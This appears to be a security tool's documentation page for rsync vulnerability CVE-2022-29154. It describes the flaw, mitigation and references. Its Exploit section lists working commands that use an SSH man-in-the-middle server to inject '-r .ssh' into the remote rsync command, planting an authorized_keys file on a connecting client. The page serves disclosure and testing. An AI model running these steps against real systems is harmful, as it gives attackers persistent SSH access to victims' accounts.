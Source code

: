 .. _cve-2022-29154:

:bdg-danger:`CVSS 7.4` CVE-2022-29154
=====================================

.. card::

    :bdg-danger:`CVSS 7.4` CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:H/A:H
    ^^^
    An issue was discovered in rsync before 3.2.5 that allows malicious remote servers
    to write arbitrary files inside the directories of connecting peers.
    The server chooses which files/directories are sent to the client.
    However, the rsync client performs insufficient validation of file names.
    A malicious rsync server (or Man-in-The-Middle attacker) can overwrite arbitrary files in the
    rsync client target directory and subdirectories (for example, overwrite the .ssh/authorized_keys file).
    +++
    **Affected Software:**

    * rsync < 3.2.5

    :fas:`check;sd-text-success` integrated in `SSH-MITM <https://github.com/ssh-mitm/ssh-mitm/blob/master/sshmitm/plugins/scp/CVE202229154.py>`_

Description
-----------

rsync < 3.2.5 does not sufficiently check whether the received files match the requested files.
This can be exploited by a MitM attacker or a malicious server to slip false or additional files to the client.

There are several ways in which this vulnerability can be exploited.
In the simplest case, however, it is sufficient to modify the rsync command so that additional files are returned.

The easiest way to describe this vulnerability is to synchronize 1 file. As an example, the file "test.txt" in the user's home directory is synchronized.

.. note::

    SSH-MITM uses port 10022 by default, which is why the SSH command must be modified when using rsync.

    Also it is recommended to pass through the SSH agent so that there are no problems when using Publickey authentication.

.. code-block::

    $ rsync -e 'ssh -p 10022 -A' 'user@127.0.0.1:test.txt' .

As soon as rsync has connected to SSH-MITM, the command sent by rsync to the server is displayed:

.. code-block::

    $ rsync --server --sender -e.LsfxCIvu . test.txt

On the server the command `rsync` is then executed with the internal parameters `--server` and `--sender`.

.. note::

    The arguments to the `-e` parameter specify the functions that the client supports.
    In this case no subdirectories are synchronized.
    To synchronize also subdirectories the parameter `-r`` must be specified additionally at the server.
    This is normally passed from the client to the server. When synchronizing a single file, this parameter is normally not specified.
    Thus directories would be ignored by the server.


The command can be modified by a MitM attack or a malicious server. To do this, a call to the server-side rsync command only requires the parameters to be modified accordingly. The following command would synchronize the file "test.txt" as well as the directory ".ssh". By synchronizing the ".ssh" directory, it is possible to foist a manipulated ".ssh/authorized_keys" file on the client.

.. code-block::

    $ rsync --server --sender -e.LsfxCIvu . test.txt -r .ssh



Exploit
-------

On the destination server create a file called "test.txt" and a subfolder containing an authorized_keys file.

.. code-block::

    $ echo "testfile" > test.txt
    $ mkdir .ssh
    $ echo "PUBLIC_SSH_KEY" > .ssh/authorized_keys

Run the server and specify additional files to be requested. In this case the folder ".ssh" and the command line argument "-r" will be added to the remote rsync command.

.. code-block::

    $ ssh-mitm server --scp-interface CVE-2022-29154 --rsync-inject-file '-r .ssh'

Connect the client to the man in the middle server.

.. code-block::

    $ rsync -e 'ssh -p 10022 -A' 'user@SERVER:test.txt' .

If your rsync version is vulnerable you will reveive the file "test.txt" from the server and a folder ".ssh" containing an authorized_keys file.

.. code-block::

    $ tree -a
    .
    ├── .ssh
    │   └── authorized_keys
    └── test.txt

    1 directory, 2 files


Mitigation
----------

 When dealing with an untrusted sending host, it is safest to copy into a dedicated destination directory
 for the remote content (i.e. don't copy into a destination directory that contains files that aren't from
 the remote host unless you trust the remote host).

References:
-----------

 * https://download.samba.org/pub/rsync/NEWS#3.2.5
 * https://nvd.nist.gov/vuln/detail/CVE-2022-29154
 * https://www.openwall.com/lists/oss-security/2022/08/02/1
 * https://github.com/WayneD/rsync/commit/b7231c7d02cfb65d291af74ff66e7d8c507ee871
 * https://serverfault.com/a/1096808/611948
